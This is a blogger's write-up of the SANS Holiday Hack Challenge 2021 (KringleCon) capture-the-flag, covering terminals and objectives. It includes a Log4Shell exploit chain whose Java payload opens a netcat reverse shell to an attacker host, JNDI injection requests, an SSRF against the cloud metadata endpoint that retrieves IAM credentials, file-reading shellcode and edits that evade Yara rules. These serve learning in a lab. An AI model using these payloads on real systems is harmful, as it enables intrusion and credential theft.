



This year I decided to try my luck with the SANS Holiday Hack Challenge: the notorious KringleCon.
It is the first time I try a CTF, so I was a bit wary as to what I would be able to accomplish, but I was pleasantly surprised by the different levels of difficulty provided, so that even beginners could feel involved. Overall, I learned a lot in a very short amount of time, and I am glad I wandered around the Frostiest place of them all.
Without further ado, here is my write-up. 

# Terminals

Helping elves aroung the North Pole can prove to be extremely beneficial. Indeed, by helping them with their predicaments (often presented as terminals), you can gain insights on how to solve the storyline [objectives](#objectives). Here is the list of all terminals offered: 

- [Bonus! Blue Log4Jack](#bonusblue)
- [Bonus! Red Log4Jack](#bonusred)
- [Logic Munchers](#logicmunchers)
- [Yara Analysis](#yara)
- [The Elf C0de](#elfcode)
- [Exif Metadata](#exif)
- [Strace Ltrace Retrace](#trace)
- [HoHo...No](#hohono)
- [Holiday Hero](#holidayhero)
- [IPv6 Sandbox](#ipv6)
- [Frostavator](#frostavator)
- [Grepping for Gold](#grepping)
- [IMDS Exploration](#imds)

# Objectives

- Objective 1: KringleCon Orientation: This objective was just used to get a lay of the land, reason why I will not be describing it in details.
    - Talk to Jingle Ringford
    - Get your badge
    - Get the WiFi adapter
    - Use the terminal
- Objective 2: [Where in the World is Caramel Santaigo?](#santaigo)
- Objective 3: [Thaw Frost Tower's Entrance](#frosttower)
- Objective 4: [Slot Machine Investigation](#slotmachine)
- Objective 5: [Strange USB Device](#usbdevice)
- Objective 6: [Shellcode Primer](#shellcode)
- Objective 7: Printer Exploitation (not completed)
- Objective 8: Kerberoasting on an Open Fire (not completed)
- Objective 9: [Splunk](#splunk)
- Objective 10: [Now Hiring!](#hiring)
- Objective 11: [Customer Complaint Analysis](#complaint)
- Objective 12: Frost Tower Website Checkup (not completed)
- Objective 13: FPGA Programming (not completed)

## Terminals write-ups

KringleCon 2021 occurred amidst the release of the Log4j vulnerabilities (CVE-2021-44228). These vulnerabilities allow an attacker to perform remote code execution by exploiting the insecure JNDI lookups feature exposed by the logging library log4j. As a result, there were some bonus terminals allowing to grasp how these vulnerabilities work and the steps that could be taken for protection.

Bow Ninecandle presented us the Blue Log4Jack terminal, in which we looked at details around these vulnerabilities and explored scanning tools looking for vulnerable source code and compromise attempts. 

### <a name="bonusblue"></a>Bonus! Blue Log4Jack

We were presented with two files ```DisplayFilev1.java``` and ```DisplayFilev2.java```: the first one does not handle non-existing file errors properly, while the second leverages the log4j library to exit gracefully and display an error message. 
With a vulnerable log4j library, improper input validation is performed, allowing an attacker to supply input that retrieves more data than intended from the system. He can also use the vulnerability to initiate a remote connection to an attacking system under his control.
We then attempt to exploit this vulnerability on a patched system and observe it is no longer applicable due to proper input validation.
The next steps consist in leveraging a scanning tool to scan for vulnerable Log4j applications.
We finally examine web log files in order to identify requests including the Log4j lookup syntax and identify the different ways an attacker can leverage this vulnerability.
To resolve the terminal, we basically need to follow the instructions and issue a series of commands (```next``` and ```ls``` excluded):

```
# why use log4j?
cd vulnerable
cat DisplayFilev1.java
javac DisplayFilev1.java
java DisplayFilev1.java testfile.txt
java DisplayFilev1.java testfile2.txt
cat DisplayFilev2.java
javac DisplayFilev2.java
java DisplayFilev2.java testfile2.txt

# what does the vulnerability allows to do?
java DisplayFilev2.java '${java:version}' 
java DisplayFilev2.java '${env:APISECRET}' 
./startserver
java DisplayFilev2.java '${jndi:ldap://127.0.0.1:1389/Exploit}'

# how does the patch solves the issue?
cd ~/patched
source classpath.sh
javac DisplayFilev2.java
java DisplayFilev2.java '${java:version}'
 
# scanning for vulnerable systems
cd
./log4j2-scan vulnerable
./log4j2-scan patched
./log4j2-scan /var/www/solr

# scanning for compromise attempts in logs
./logshell-search.sh /var/log/www
./logshell-search.sh /var/log/www | sed '1!d'
./logshell-search.sh /var/log/www | sed '2!d'
./logshell-search.sh /var/log/www | sed '3!d'
```

### <a name="bonusred"></a>Bonus! Red Log4Jack
(Write-up shamelessly inspired from <a href="https://gist.github.com/joswr1ght/fb361f1f1e58307048aae5c0f38701e4">Josh Wright</a>

With the terminal provided by Icky McGoop, we get to apply what we learned on the log4j vulnerabilities.
The server at <a href="http://solrpower.kringlecastle.com:8983">http://solrpower.kringlecastle.com:8983</a> is running a Solr version potentially vulnerable with the Lo4j vulnerabilities.
```
curl http://solrpower.kringlecastle.com:8983/solr/
```
To exploit the vulnerable server, we have to leverage the Marshelsec Java deserialization LDAP server. The vulnerable server needs to reach the malicious LDAP server as part of the Log4shell attach path.
```
cd marshalsec
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://172.17.0.2:8080/#Yule"
```
Next, we need to create the exploit in Java to run a command on the vulnerable server and connect back to the attacker system.
```
cd web

nano Yule.java
# Yule.java
public class Yule {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc 172.17.0.2 4444 -e /bin/bash");
        } catch (Exception err) {
            err.printStackTrace();
        }
    }
}
```
This Java program will run the Netcat command and send a shell to the specified IP address.
Next, we deliver the Log4shell exploit to gain remote access to Santa's Solr server by making a cURL request, as shown here.
```
javac Yule.java
curl 'http://solrpower.kringlecastle.com:8983/solr/admin/cores?foo=$\{jndi:ldap://172.17.0.2:1389/Yule\}'
{
  "responseHeader":{
    "status":0,
    "QTime":293},
  "initFailures":{},
  "status":{}}
```
We can see a status update in the terminal window for the Marshalsec LDAP server, the web server, and the Netcat shell listener. We can retrieve the required file from the Netcat shell listener terminal
```
cat /home/solr/kringle.txt
```
We now have the answer ```patching```, that we can issue by running the command:
```
runtoanswer patching
```

{:class="img-responsive"}

### <a name="logicmunchers"></a>Logic Munchers

To solve the terminal of Noel Boetie, we had to complete a stage of Potpourri at Intermediate level or higher. It presented a combination of boolean logic, arithmetic expressions, number conversions and bitwise operations, while adding the thrill of slaloming between faster and faster Trollogs. To pass a level, we needed to chomp all ```True``` statements displayed on the board.

{:class="img-responsive"}

Noel Boetie gave us hints on [Objective 4](#slotmachine)

### <a name="yara"></a>Yara Analysis

For this challenge, we needed to help Fitzy Shortstack put the candy manifacture back on tracks by helping the application bypass Sparkle Redberry's Yara scanner.
We had to pass through several rounds of execution of ```the critical elf app``` (to identify the corresponding Yara rules) and modification (to bypass the identified rules) in order to trick the scanner.
Here are the rules that we needed to bypass, as well as the command lines used to bypass them:
- Yara rule 135: Block execution if "candycane" string is found
```
sed -i 's/candycane/condycane/g' the_critical_elf_app
```
- Yara rule 1056: Block execution if both strings ```6c 6962 632e 736f 2e36``` ("libc.so.6") and ```726f 6772 616d 2121``` ("rogram!!) are found. We only need to modify one of them
```
sed -i 's/execution of this program!!/execution of this program!./g' the_critical_elf_app
```
- Yara rule 1732: Block execution if the header of the file corresponds to an ELF program (0x02464c45) and filesize is least than 50 KB, and 10 out of the following strings are present:

 

We only need to change the header of ```the critical elf app``` to bypass this rule
```
sed -i 's/ELF./ELF!/g' the_critical_elf_app
```

```the critical elf app``` can now run without being bothered by the Yara rules and let children enjoy their cavities.

 

Fitzy Shortstack gave us hints on [Objective 9](#splunk).

### <a name="elfcode"></a>The Elf C0de

In this challenge, we needed to help Ribb Bonbowford and retrieve the lollipos nabbed by mischevious munchkins from at least eight entrances to KringleCon.
You will have to trust these screenshots, that I succeeded in this challenge, since the Northern Winds twirled and took my code away. (more seriously, I did not get a screenshot right away and was not able to go back and retrieve the code, once I moved to the upper level. And if I want to submit on time, it might not be a good idea to start from level 1 right now ^^)

 

Ribb Bonbowford gave us hints on [Objective 12].

### <a name="exif"></a>Exif Metadata

This terminal consisted in helping Piney Sappington find the file modified by Jack Frost right before Christmas. Using exiftool, we can find the file for which the date of creation ```$CreateDate``` is lesser than the date of modification ```$ModifyDate```

```
exiftool -s -if '$CreateDate lt $ModifyDate' -p '$Filename' ./*.docx
```

The file modified by Jack Frost is ```2021-12-21.docx```

 

Piney Sappington gave us hints for [Objective 2](#santaigo)

### <a name="trace"></a>Strace Ltrace Retrace

Solving this terminal helped Tinsel Upatree fix the cotton candy machine. Indeed, the Cranberry Pi that controls it was missing a critical registration file after maintainers replaced its SD card. 

 

In order to identify what is missing, we run the following command:
```
strace ./make the candy
```

 

We notice in the output that the file ```registration.json``` is missing. We create it using the following:
```
touch registration.json
```
Now, upon program execution, we notice that the application complains about not being registered.

 

As a result, we add a dummy content in the registration file we created earlier:
```
# registration.json
{"registered": true}
```
Since the complaint of unregistration continues,

 

we run the following command to gather more information:
```
ltrace ./make the candy
```

 

The program seems to be looking for the ```"Registration"``` string. We change our ```registration.json``` to reflect this information.
```
# registration.json
{"Registration": true}
```
We are still greeted with the following:

 

Re-running ```ltrace ./make the candy```, indicates the need for the string ```True```

 

We modify the registration file as follows:
```
# registration.json
{"Registration": True}
```
After re-running the programm ```./make the candy```, we are this time greeted with a successful output.

 

Tinsel Upatree gave us hints on [Objective 11](#complaint)

### <a name="ipv6"></a> IPv6 Sandbox

Jewel Loggins needed help to retrieve the password for the candy striper service. It was stored on another machine on the same network. Since the network leverages IPv6, he needed some help to get the right commands in this context. We could get some great information from <a href="https://gist.github.com/chriselgee/c1c69756e527f649d0a95b6f20337c2f">Chris Elgee</a>
```
# find local addressess for systems on your network segment
ping6 ff02::1 -c2
# see content of your NDIS cache list 
ping6 ff02::2 -c2
ip neigh
```

 

```
# run Nmap on the host found
nmap -6 fe80::42:c0ff:fea8:a002%eth0 
```

 

Ports 80 and 9000 are both open. We first try port 80, but the content of the HTML returned indicates us to try port 9000 to get the answer: ```PieceOnEarth```

 

 

Jewel Loggins gave us hints for [Objective 5](#usbdevice)

### <a name="hohono"></a> HoHo... No

In the HoHo...No terminal, we had to help Eve Snowshoes and prevent Jack Frost from breaking into Santa's workshop. In order to do that, we needed to properly configure the Fail2ban service to identify the malicious IP addresses that generate 10 or more failure messages within an our. We analysed the ```/var/log/hohono.log``` to get a sense of the failure messages format, and then created the following files:

- /etc/fail2ban/filter.d/hohono.conf
```
# /etc/fail2ban/filter.d/hohono.conf
[Definition]
failregex = Login from <HOST> rejected due to unknown user name$
            Invalid heartbeat '.*?' from <HOST>$
            <HOST> sent a malformed request$
            Failed login from <HOST> for .*?$
```

- /etc/fail2ban/action.d/hohono.conf
```
# /etc/fail2ban/action.d/hohono.conf
[Definition]
actionstart =
actionban = /root/naughtylist add <ip>
actionunban = /root/naughtylist del <ip>
actionstop = 
```

- /etc/fail2ban/jail.d/hohono.conf
```
# /etc/fail2ban/jail.d/hohono.conf
[hohono]
enabled = true
logpath = /var/log/hohono.log
findtime = 60m
bantime = 30m
maxretry = 10
filter = hohono
action = hohono
```

Then, after restarting the Fail2ban service and refreshing the Naughty list, all offending IPs were successfully added to the list.

 

Eve Snowshoes gave us hints for Objective 8: Kerberoasting on an Open Fire.

### <a name="holiday"></a> Holiday Hero

The goal here was to help Chimney Scissorsticks to fuel Santa's sleigh. We could either play with someone else, or activate the single player mode to perform the task on our own. I took up the challenge of doing exactly that.
Using the Developer Tools of the browser, I edited the ```HOHOHO``` cookie value to enable the single player mode; I gave it the following value: ```{"single_player":true}```. 


But it was not all that needed to be done. Indeed, the script ```holidayhero.min.js``` had an additional parameter ```single_player_mode``` that needed to be equal ```true``` to make the Computer join my quest.


I edited this parameter using the Developer Tools Console. I was then able to start playing, helped by the Computer in order to refuel Santa's sleigh.


Chimney Scissorsticks gave us hints on [Objective 6](#shellcode)

### <a name="imds"></a> IMDS Exploration

In Jack's bathroom, Noxious O. D'Or presented us a terminal for IMDS (Instance Metadata Service) exploration, which was quite instructive for me. It is a service provided by all major cloud providers to help manage and configure cloud nodes. But it can also be used to retrieve secret keys when it is used in combination with SSRF (Server Side Request Forgery).
We just had to execute the command lines provided, to solve this terminal, or use the command ```next```. These commands correspond to the formats for AWS, however, different providers can have different formats
```
# access IMDS data
curl http://169.254.169.254
# access the latest endpoint
curl http://169.254.169.254/latest
# access the dynamic endpoint
curl http://169.254.169.254/dynamic
# access the instance-identity/document
curl http://169.254.169.254/latest/dynamic/instance-identity/document
# pretty print result
curl http://169.254.169.254/latest/dynamic/instance-identity/document | jq
# access meta data element
curl http://169.254.169.254/latest/meta-data
# access public-hostname
curl http://169.254.169.254/latest/meta-data/public-hostname
# see the instance IAM role
curl http://169.254.169.254/latest/meta-data/iam/security-credentials
# request the AWS keys associated with the role
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/
elfu-deploy-role
# using IMDSv2, authentication is required before being able to use the API
cat gettoken.sh
source gettoken.sh
echo $TOKEN
# access the metadata region information in an IMDSv2 request
curl -H "X-aws-ec2-metadata-token: $TOKEN"
http://169.254.169.254/latest/meta-data/placement/region
```

Noxious O. D'Or gave us hints on [Objective 10](#hiring)

### <a name="frostavator"></a> Frostavator

I did not take a screenshot right away of my success here. In this challenge, Grody Goiterson had an issue with the Frostavator because the logic gates were not placed properly. We had to help re-order them to make the Frostavator function. We had to use the logic gate iconography to understand the symbols correctly and design the right logic.


Grody Goiterson gave us hints for Objective 13: FPGA Programming.

### <a name="grepping"></a> Grepping for Gold


## Objectives write-ups

### <a name="santaigo"></a>Where in the World is Caramel Santaigo?

### <a name="slotmachine"></a>Slot Machine Investigation

The objective was to help Tangle Coalbox find a waywward elf using Open Source Intelligence (OSINT). 

The first set of clues were:
- MGRS, 32U NU 05939 98268
- Town hall converted in giant advent calendar
- -1.0°C with partly cloudy conditions, Twitter app
Among the proposals: Antwerp(Belgium), Stuttgart(Germany), and London(England), only Stuttgart checked all the boxes, so I departed for this destination.

The second set of clues were:
- Hogmanay
- Blurry selfie
- -1.0°C and clear weather conditions, elf heated about using tabs for indents, Stack Overflow and Python

Among the proposal, Stuttgart(Germany), Edinburgh(Scotland), Vienna(Austria), Edinburgh fitted the description. I then left for Scotland.

The third set of clues were:
- Christkindlmarkt, Spittelberg, fried sausages and goulash soup, hot Christmas punch
- Contact from address in range 137.208.0.0/16
- -6.0°C, heated about tabs for indents

Among the proposal, London(England), Vienna(Austria), New York(USA), only Vienna fitted the description. I reached the elf there.

All the information obtained allowed me to filter in the Intering and identify the right elf ``` Fitzy Shortstack ```


### <a name="frosttower"></a> Thaw Frost Tower's Entrance

Grimy McTrollkins needed help for this objective. We had to use a USB WiFi dongle and communicate with Jack's IoT thermometer to unfreeze the door to his conference building. We first had to identify the name of our wireless interface, using ```iwconfig```. It was ```wlan0```. Then, we issue a scan to identify the ESSID of the thermometer, namely ```FROST-Nidus-Setup```


We can now connect to this ESSID:
```
iwconfig wlan0 essid FROST-Nidus-Setup
```
Upon connection, we are asked to visit the adress http://nidus-setup:8080 to complete the setup. 


At this point, we are provided with the location of the API. Using the documentation of the API, we identify the POST request to use to melt the frozen door, by setting a temperature above 0.
```
curl http://nidus-setup:8080/apidoc
```


### <a name="slotmachine"></a>Slot Machine Investigation

The goal was to help Hubris Selfington investigate Jack's slot machines. Turns out, the application was susceptible to parameter tampering.
I used Burp Suite to intercept and manipulate the requests sent by the client.
With my Burp proxy enabled, I spinned once and intercepted the request. I manipulated it to provide a negative value to the parameter ```cpl```. As a result, I obtained a coin total exceeding 1000 and got the answer: ```"I'm going to have some bouncer trolls bounce you right out of this casino!"```


For fun, I updated some more to have my coin amount reflected in the interface :)


### <a name="usbdevice"></a>Strange USB Device

In this objective, we had to assist Morcel Nougat to reverse engineering a strange USB device encoded using Ducky Script to craft a USB Rubber Ducky.
We used the decoder Mallard for that purpose.
```
python3 ./mallard.py --file /mnt/USBDEVICE/inject.bin
```
We noticed an interesting base64 encoded string in the output from that command:

 

By decoding this string, we observed it represented the addition of the key from the troll Icky McGoop to the ssh authorized keys file.

 

The correct answer is ```ickymcgoop```

 

### <a name="shellcode"></a>Schellcode Primer

The final challenge of this objective compiled the steps of everything learned so far in order to write some real life shellcode for reading a file (11).

```
; TODO: Get a reference to this
call jump_secrets
db '/var/northpolesecrets.txt',0
jump_secrets:

; TODO: Call sys_open
mov rax,2
pop rdi
mov rsi, 0
mov rdx, 0
syscall

; TODO: Call sys_read on the file handle and read it into rsp
mov rdi, rax
mov rax, 0
mov rsi, rsp
mov rdx, 300
syscall

; TODO: Call sys_write to write the contents from rsp to stdout (1)
mov rax, 1
mov rdi, 1
mov rsi, rsp
mov rdx, 300
syscall

; TODO: Call sys_exit
mov rax, 60
mov rdi, 99
syscall
```

The answer to this challenge is : ```cyber security knowledge```

 

In the end, Ruby Cyster gave us hints for Objective 7: Printer Exploitation.

### <a name="splunk"></a>Splunk!

In this objective, we had to help Angel Candysalt on the Splunk challenge, allowing to analyse the logs. Here are the command lines used to answer the different tasks in the challenge:

- Task 1: Capture the commands Eddie ran most often, starting with git: ```git status```

```
# 1
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational  user=eddie | where match(CommandLine , "git")
| stats count by CommandLine 
| sort - count
```

 

- Task 2: Looking through the git commands Eddie ran, determine the remote repository that he configured as the origin for the 'partnerapi' repo: ```git@github.com:elfnp3/partnerapi.git```

```
# 2
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational EventCode=1 user=eddie | where match(CommandLine , "partnerapi") and match(CommandLine , "github.com")
| stats count by CommandLine
```

 

- Task 3: Eddie was running Docker on his workstation. Gather the full command line that Eddie used to bring up a the partnerapi project on his workstation: ```docker compose up```

```
# 3
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational  user=eddie | where match(CommandLine , "docker")    | stats count by CommandLine
```

 

Task 4: Eddie had been testing automated static application security testing (SAST) in GitHub. Vulnerability reports have been coming into Splunk in JSON format via GitHub webhooks. Search all the events in the main index in Splunk and use the sourcetype field to locate these reports. Determine the name of the vulnerable GitHub repository that the elves cloned for testing and document it here. Inspect the repository.name field in Splunk: ```https://github.com/snoopysecurity/dvws-node```

```
# 4
index=main sourcetype=github_json alert | spath output=clone_url path=repository.clone_url| table clone_url |stats count by clone_url
```
By navigating to the url ```https://github.com/elfnp3/dvws-node.git```, we can see the original repository used to create it.

 

- Task 5: Santa asked Eddie to add a JavaScript library from NPM to the 'partnerapi' project. Determine the name of the library and record it here for our workshop documentation: ```holiday-utils-js```

```
# 5
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational user=eddie | where match (CommandLine, "npm install")| stats count by CommandLine
```

 


- Task 6: Another elf started gathering a baseline of the network activity that Eddie generated. Start with their search and capture the full process_name field of anything that looks suspicious: ```/usr/bin/nc.openbsd```


```
# 6
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational EventCode=3 user=eddie NOT dest_ip IN (127.0.0.*) NOT dest_port IN (22,53,80,443) 
| stats count by dest_ip dest_port process_name
```

 

- Task 7: Starting with the process identified in the previous task, look for additional suspicious commands launched by the same parent process. One thing to know about these Sysmon events is that Network connection events don't indicate the parent process ID, but Process creation events do! Determine the number of files that were accessed by a related process and record it here:

Find the parent process id:
```
# 7
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational EventCode=1 user=eddie process_name="/usr/bin/nc.openbsd" | table parent_process_id
```
 

Find the processes launched by this parent process id and identify the suspicious one:

```
# 7
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational EventCode=1 user=eddie  parent_process_id=6788 | table process_name
```
 

Identify the number of file accessed:
```
# 7
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational EventCode=1 user=eddie  parent_process_id=6788 | where match(CommandLine, "cat") |eval temp=split(CommandLine," ")| stats count(temp) AS count_status | eval final=count_status -1

```

 

```
# 8
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational EventCode=1 user=eddie .sh NOT dest_ip IN (127.0.0.*) NOT dest_port IN (22,53,80,443)| stats count by CommandLine |sort - count
```

 

After all that hard work, Santa called us a ```whiz```


### <a name="hiring"></a> Now Hiring!

In this objective, we use the knowledge provided by Noxious O. D'Or to leverage IMDS in a SSRF on Jack Frost Tower job applications server. We identify the form on the application page ```https://apply.jackfrosttower.com/?p=apply``` as being critical for an injection.
The interesting field is the ```URL to the public NBLI report``` which requires a URL. 
We fill that field with the following url to see the instance IAM role :
```
http://169.254.169.254/latest/meta-data/iam/security-credentials
```

 

We obtain the following response page, but no display of the information on the page:

 

Upon analysis, we notice that the broken image has the same name as the one we entered in the name field. We download it and open it in a text editor. It contains the IAM role: ```jf-deploy-role```

We repeat the same steps, with the following url in the form:
```
http://169.254.169.254/latest/meta-data/iam/security-credentials/jf-deploy-role
```
We download the broken image and get the secret access key for the server: ```CGgQcSdERePvGgr058r3PObPq3+0CfraKcsLREpX```

### <a name="complaint"></a> Customer Complaint Analysis

This objective consisted in identifying the trolls that complained about the human. We used Wireshark to analyze the network pcap and followed the hints given by Tinsel Upatree to filter the packets. Looking at the general format of the packets, we noticed that the trolls used a form to send their complaints, hence issuing HTTP POST requests. We filtered for packets with the "Evil bit" set, containing the string "complaint" and with HTTP POST.

 

By looking in the form content, specifically the ```guest_info``` input, we notice the recurrence of room 1024 in the complaints, we further filter using this information and end up with three packets related to this room, i.e. three complaints by three trolls. These trolls are: ```Flud Hagg Yaqh```

 